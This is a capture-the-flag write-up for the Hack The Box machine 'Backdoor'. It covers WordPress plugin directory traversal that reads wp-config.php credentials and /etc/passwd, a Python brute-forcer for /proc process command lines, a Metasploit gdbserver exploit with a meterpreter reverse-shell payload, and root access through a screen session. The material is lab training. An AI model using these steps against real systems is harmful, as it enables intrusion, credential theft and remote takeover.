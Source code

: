 <p align="center"><img src="img/banner.png" alt="Banner"></img></p>
<p align="center">Machine creator: <a href="https://app.hackthebox.com/profile/79623">hkabubaker17</a></p>

[![f4T1H21](https://www.hackthebox.eu/badge/image/184235)](https://app.hackthebox.eu/profile/184235)
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  <img src="https://raw.githubusercontent.com/f4T1H21/f4T1H21/main/support.png" height="40" alt="Support">
  </img>
</a>
<br>

---
# Reconnaissance
### Nmap result

```console
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## `80/tcp`
Let's run a `wpscan`:
```console
┌──(root💀f4T1H)-[~/hackthebox/backdoor]
└─# wpscan --url http://backdoor.htb/ --detection-mode aggressive --plugins-detection aggressive --plugins-version-detection aggressive -e vp,vt,tt,cb,dbe,u,m --api-token <Removed>
...
[+] ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Ebook Download < 1.2 - Directory Traversal
 |     Fixed in: 1.2
 |     References:
 |      - https://wpscan.com/vulnerability/13d5d17a-00a8-441e-bda1-2fd2b4158a6c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10924
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 ...
```

## Directory Traversal
https://www.exploit-db.com/exploits/39575

`../../wp-config.php` has MySQL credentials obviously but we can't use them as there's no externally listening mysql service on remote host.

```console
┌──(root💀f4T1H)-[~/hackthebox/backdoor]
└─# curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php | grep 'DB_' | head -n 4
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpressuser' );
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
define( 'DB_HOST', 'localhost' );
```
```console
┌──(root💀f4T1H)-[~/hackthebox/backdoor]
└─# curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd | grep -P '100\d'
user:x:1000:1000:user:/home/user:/bin/bash
```
Tried mysql passord to ssh but no avail.<br>
Considering this is a path traversal and not LFI, I don't think there's an RCE, apache log poisoning or header injection moves forward from this point.<br>
Chances are we can enumerate network and processes on the remote host.<br>

## Enumerating TCP listening ports through `/proc/net/tcp`
```console
┌──(root💀f4T1H)-[~/hackthebox/backdoor]
└─# curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/net/tcp | sed -e 's/^\/proc\/net\/tcp\/proc\/net\/tcp\/proc\/net\/tcp//g' -e 's/<script>window.close()<\/script>$//g'
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 0100007F:8124 00000000:0000 0A 00000000:00000000 00:00000000 00000000   113        0 34640 1 0000000000000000 100 0 0 10 0                     
   1: 0100007F:0CEA 00000000:0000 0A 00000000:00000000 00:00000000 00000000   113        0 34642 1 0000000000000000 100 0 0 10 0                     
   2: 3500007F:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 32150 1 0000000000000000 100 0 0 10 0                     
   3: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 33858 1 0000000000000000 100 0 0 10 0                     
   4: 7D0B0A0A:A5DC 01010101:0035 02 00000001:00000000 01:000002D4 00000003   101        0 217606 2 0000000000000000 800 0 0 1 7                     
   5: 7D0B0A0A:0539 0F0E0A0A:9E48 01 00000000:00000000 02:00096761 00000000  1000        0 171898 2 0000000000000000 26 4 30 10 7                    
                                                                                                                                                                                             
┌──(root💀f4T1H)-[~/hackthebox/backdoor]
└─# echo $((16#0539))
1337
```

In the last line, we can see a listening process which is done by `user`, converting its listening port number from hexadecimal to decimal gives us `1337`.

## Brute forcing running processes /proc/{PID}

Here's the script I wrote to brutefore commands for relative Process IDs.

___Attention___: _I recommend you to reset the box before running this script as the more machine stays alive, the bigger PIDs become._

#### brute.py
```python
#!/usr/bin/env python3
import requests
import re

url = 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl='
for i in range(0, 100000):
    try:
        path = f"/proc/{i}/cmdline"
        pattern = r"({}){}(.*)<script>window\.close\(\)</script>".format(path, '{3}')
        r = requests.get(url+path)
        match = re.match(pattern, r.content.decode('utf-8'))
        cmd = match.group(2)
        if cmd:
            print(f"PID {i} {cmd}")

    except KeyboardInterrupt:
        exit()

    except Exception as e:
        print(f"Program crashed because of:\n{e}")
        exit()
```

Time for a coffee break ☕

After some time, I noticed a process related with port `1337/tcp`.

```console
PID 879 /bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

Here we managed to find out what's actually going on on `tcp/1337`, there's a `gdbserver` listening!


# Foothold: GDB Server Remote Payload Execution
There's an msf module for the exploit, let's try it.

```console
msf6 > use exploit/multi/gdb/gdb_server_exec 
msf6 exploit(multi/gdb/gdb_server_exec) > set target 1
msf6 exploit(multi/gdb/gdb_server_exec) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set rhost 10.10.11.125
msf6 exploit(multi/gdb/gdb_server_exec) > set rport 1337
msf6 exploit(multi/gdb/gdb_server_exec) > set lhost tun0
msf6 exploit(multi/gdb/gdb_server_exec) > exploit
```

# Privilege Escalation: Screen Cronjob

Enumerating running processes again gives us a `cronjob` which is a `while` loop again!

```console
root         811     808  0 12:48 ?        00:00:00  \_ /usr/sbin/CRON -f
root         844     811  0 12:48 ?        00:00:00      \_ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
root       25736     844  0 13:20 ?        00:00:00          \_ sleep 1
```

#### find
- `-empty`: Is a test that returns `true` if there's no file or empty file.
- `-exec`: Executes, yes.

#### screen
is a utility that provides the ability of using multiple shell sessions.

- `-dmS`: Starts screen session in detached mode as daemon.
- `root`: The name of the session started.

So here we can get root privileges if we attach that daemonized detached screen session.

We can use either `screen -dr root/root` or `screen -x root/root`, both will work.

```console
root@Backdoor:~# cut -c1-21 root.txt
c1109f567183dfac2b1fa
```

---

# References

|__`Wordpress Plugin eBook Download 1.1 Directory Traversal`__|__https://www.exploit-db.com/exploits/39575__|
|:-|:-|

<br>

___─ Written by f4T1H ─___